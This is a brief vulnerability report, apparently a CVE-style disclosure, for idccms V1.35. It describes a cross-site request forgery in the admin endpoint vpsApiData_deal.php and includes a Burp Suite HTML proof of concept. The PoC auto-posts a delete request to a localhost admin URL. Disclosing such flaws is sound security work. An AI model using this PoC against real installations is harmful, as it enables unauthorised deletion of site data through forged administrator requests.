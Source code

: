 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/vpsApiData_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BA%91%E6%9C%8D%E5%8A%A1%E5%99%A8&theme=%E6%98%9F%E5%A4%96%E6%9C%8D%E5%8A%A1%E5%99%A8+4G&dataID=168

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/vpsApiData_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BA%91%E6%9C%8D%E5%8A%A1%E5%99%A8&theme=%E6%98%9F%E5%A4%96%E6%9C%8D%E5%8A%A1%E5%99%A8+4G&dataID=168" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
